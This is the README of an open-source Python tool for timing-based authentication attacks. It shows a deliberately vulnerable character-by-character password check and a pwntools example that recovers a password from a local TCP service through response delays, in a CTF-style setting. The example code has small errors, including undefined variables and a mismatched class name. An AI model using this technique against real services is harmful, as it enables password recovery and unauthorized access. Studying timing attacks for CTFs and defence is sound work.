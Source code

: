 # Time Authentication Attack Tool

Python Time Based Authentication Attack Tool

## Development

You can contribute by sending merge requests and/or issues on this github opensource project.

## Demo:

![Alt Text](./demo.gif)

## Usage:

### Installation

You can install this package by launching:

```sh
> git clone git@github.com:SakiiR/timeauth.git
[...]
> pip install ./timeauth/
> # Done
```

### Examples

Suppose that we have a listenning tcp service on `localhost:1337` waiting for a password input. 
What if the code behind this TCP service have been done by a weird developer and checks your input char by char
and sleeping each time it checks your char ( or do a BIG action on his server that take some time ).

```sh
> nc localhost 1337
Hello !
password please: SakiiR
Bad Password ! BYE BYE
[!] Closed connection ..
```

And the following backend password verification:

```py
def check_password(input, real):
    if(len(input_flag) == 0):
            return False
        for left, right in zip_longest(input_flag, flag):
            if(left != right):
                return False
            sleep(0.25) # prevent brute forcing
        return True
```

This package has been made to make exploitation of this kind of service faster by implementating a Single Class.

exemple:

```py
from pwn import remote, context
from timeauth import TimeAuthChecker


class ExampleChecker(TimeAuthChecker):

    def __init__(self):
        super(self.__class__, self).__init__(
            charset="0123456789",
            token_length=10,
            hidden_char="*"
        )

    def request(self):

        context.log_level = 'error'
        s = remote('localhost', 1337)
        s.recvuntil(':')
        s.sendline(self.get_token())
        s.readall()
        s.close()
        context.log_level = 'info'

if __name__ == "__main__":
    a = RootmeChecker()
    a.process()
    a.print_token()
```
### Todo

* Add a Time Based SQL Injection Module
* Add a Blind SQL Injection Module

